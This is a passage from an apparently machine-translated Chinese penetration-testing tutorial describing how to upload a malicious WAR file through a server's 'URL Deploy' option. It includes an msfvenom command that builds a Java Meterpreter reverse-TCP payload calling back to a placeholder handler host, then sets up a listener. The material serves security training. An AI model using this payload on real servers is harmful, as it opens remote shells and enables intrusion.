 3.  通过进一步向下滚动页面，我们将看到多个`deploy`方法。选择`URL Deploy`方法，这将允许我们从远程 URL 获取 WAR 文件：

![](img/ccef5707-375f-4b50-9229-2fb75bd3e477.png)

4.  让我们使用以下命令生成基于战争的 Metasploit 负载：

```
Msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

5.  我们现在需要在 HTTP 服务器上托管 WAR 文件，并将 URL 粘贴到输入字段中，如图所示：

![](img/6f90207a-c92b-435d-b963-ae52e389f404.png)

6.  让我们设置利用漏洞处理程序，如图所示：

![](img/cf918cfe-c4ba-4ca3-b9dd-38ffb5f1dec0.png)
